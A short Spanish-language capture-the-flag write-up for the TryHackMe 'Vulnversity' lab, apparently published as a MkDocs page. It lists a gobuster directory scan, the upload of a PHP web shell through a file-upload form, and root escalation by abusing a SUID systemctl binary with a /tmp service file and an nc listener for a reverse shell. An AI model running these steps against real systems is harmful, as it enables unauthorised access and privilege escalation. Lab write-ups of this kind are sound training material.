

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/vulnversity/index.html · generator: mkdocs

# Vulnversity

![](../../assets/img/Pasted_image_20251027112508.png)

`gobuster dir -u http://10.10.140.84:3333 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 20 -x php,html,js,txt`

![](../../assets/img/Pasted_image_20251027114554.png)

/internal podemos subir archivos
Subimos un `sh3ll.phtml` porque es el que nos deja subir
Entramos a /10.10.140.84/internal/uploads/sh3ll.phtml
**www-data**

Encontramos un binario /bin/siystemctl con permiso SUID
Buscamos como explotarlo:
1) Creamos un archivo root.service en /tmp de la máquina víctima:

![](../../assets/img/Pasted_image_20251027123819.png)

2) nc en kali
`nc -nvlp 9999`
3) Hacemos en máquina víctima
`systemctl enable /tmp/root.service`
`systemctl start root`
**root**
